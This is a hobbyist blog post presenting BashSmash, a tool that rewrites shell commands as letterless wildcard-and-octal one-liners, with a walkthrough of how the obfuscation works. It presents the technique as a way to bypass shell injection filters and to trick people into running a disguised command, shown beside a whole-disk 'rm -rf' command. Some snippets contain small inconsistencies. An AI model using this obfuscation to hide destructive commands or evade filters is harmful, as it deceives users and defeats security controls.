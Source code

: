 ```yaml
---
layout: page
title: BashSmash
description: A tool for driving people crazy
date: 2019-06-26
tags:
- project
- bash
aliases:
- /blog/2019/06/26/bashsmash
- /blog/bashsmash
---
```


I was watching this great [Liveoverflow video](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwiOhNze_4fjAhUiB50JHR12D8AQwqsBMAB6BAgJEAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D6D1LnMj0Yt0&usg=AOvVaw2nOgft0SoPZujc9js9Vxhx) yesterday, and really liked the idea of building escape sequences with strings. So, I built a new tool, [BashSmash](https://pypi.org/project/bashsmash/). 

## The goal
The goal of BashSmash is very similar to that described in Liveoverflow's video. Do anything in bash without using any letters or numbers except `n` and `f` (he used `i` instead of `f`). This can both bypass shell injection filters, and generally mess with people.

Saying "Hey, you should run:"
```bash
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Instead of:
```bash
sudo rm -rf --no-preserve--root /
```

Can usually get you much farther with your goal of world domination.

## How does this work?
BashSmash abuses bash wildcards, octal escape codes, and a large number of backslashes to obfuscate any valid shell script.

Firstly, it is important to know that `printf` will gladly convert any octal to a string, and bash's eval (`$()`) function will gladly run any string as a bash script. (See where this is going?)

Because of these tools, we know that the following is possible:
```bash
# Printf-ing a string will print the string
printf "hello" # This will return hello

# Printf-ing a sequence of octal escapes will also print a string
printf "\150\145\154\154\157" # This will also return hello

# Eval-ing a printf of an octal escape sequence will build a string, then run it in bash
$(printf "\150\145\154\154\157") # This will warn that "hello" is not a valid command
```

This has some issues. You may have noticed that letters are required to spell `printf`, and numbers are needed for the octal escapes. Let's start by fixing the letters problem.

Bash allows wildcards. You may have run something like `cp ./foo/* ./bar` before. This uses the wildcard `*`. The `*` wildcard will be auto-evaluated to expand into a list of all files in it's place.
```bash
# Let's assume that ./foo contains the following files:
#   john.txt
#   carl.txt

# Running the following:
cat ./foo/*

# Will automatically expand to:
cat ./foo/john.txt ./foo/carl.txt

# Now, lets assume that ./baz contains a single file:
#   KillHumans.sh

# Running:
./baz/*

# Will execute KillHumans.sh
```

Neat, Right? To take this a step further, you can use the second wildcard, `?`, to specify the number of characters you want to look for. Running `./baz/?` will not run `KillHumans.sh` because `KillHumans.sh` is not 1 char long. But `./baz/?????????????` will. This is messy, but it works.

Now, back to our problem with `printf`. `printf` is located in `/usr/bin/printf` on all *nix systems. This is handy as, firstly, this can be wildcarded, and secondly, the path contains 2 `n`'s and an `f` (the two letters we are allowed to use). So, instead of calling `printf`, we can call `/???/??n/???n?f`. 
```bash
# Now, we can call:
/???/??n/???n?f "\150\145\154\154\157"

# To print "hello". Or:
$(/???/??n/???n?f "\150\145\154\154\157")

# To run "hello" as a program (still gives an error)
```

Now, our problem with letters is solved, but we are still using numbers.

Bash allows anyone to define functions. These functions can take arguments and call other programs. So, what if we have a function that can take any number of arguments, and return the number of arguments as a number? This will be helpful because an empty argument can be added with `""` (not a number or letter), and this will replace the need for numbers in our code. On a side note, bash allows `__` as a function name, so that's cool. 

```bash
# Our function needs to do the following:
#   - Take any number of arguments
#   - Turn the number to a string
#   - Print the string so it can be evaluated back to a number with $()

# First, we start with an empty function, named __ (two underscores)
__() {};

# Easy. Next, we use a built-in feature of bash to count the number of arguments passed
__() { ${#} };

# With the ${#} feature in bash, giving this function 3 arguments will return a 3
# Next, we need to print this number to stdout 
# This can be done with printf
# We still do not want to use any letters or numbers, so we must use our string of wildcards
/???/??n/???n?f

# So, we just plug this into our function
__() {/???/??n/???n?f ${#}};

# Now, calling our function with three arguments
__ "" "" ""
# Will print:
3
```

Let's put this together. First, we must tell bash that our `__` function exists. 
``` bash
# We do this by starting our new script with: 
__() {/???/??n/???n?f ${#}};

# Next, an eval to actually run our constructed string. Together it now looks like this:
__() {/???/??n/???n?f ${#}); $(/???/??n/???n?f )

# Now, we construct a string using the __ function over and over again. "echo hello" looks like:
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Thats it! You do not actually have to worry about this, because BashSmash does it all for you automatically.

## How do I use the script?
To use BashSmash, simply make sure both `python3.7` and `python3-pip` are installed on your computer, then run:
```
pip3 install bashsmash
```

For more info, see the [PYPI Page](https://pypi.org/project/bashsmash/).

## Why do you have a desire to break things with python
Because it is fun. Give it a try! 

I will have a post here at some point about the weird things I do in my python code and why I do them.
